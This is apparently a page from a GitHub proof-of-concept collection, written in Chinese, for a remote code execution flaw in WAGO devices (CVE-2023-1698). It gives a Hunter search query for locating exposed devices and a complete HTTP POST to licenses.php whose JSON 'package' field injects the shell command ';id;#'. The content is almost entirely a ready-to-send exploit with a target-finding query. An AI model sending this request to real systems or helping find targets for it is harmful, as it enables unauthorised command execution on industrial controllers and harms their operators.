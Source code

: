 ## WAGO系统远程代码执行漏洞(CVE-2023-1698)

## 鹰图 hunter
```
web.similar_icon=="10798453453671307224"
```
## poc
```
POST /wbm/plugins/wbm-legal-information/platform/pfcXXX/licenses.php HTTP/1.1  
Host: 127.0.0.0  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36  
Connection: close  
Content-Length: 19  
Content-Type: application/x-www-form-urlencoded  
Accept-Encoding: gzip, deflate  
  
{"package":";id;#"}  
```
![image](https://github.com/wy876/POC/assets/139549762/4fc4fd00-bde1-4852-b6bc-b2c9a5a0256d)
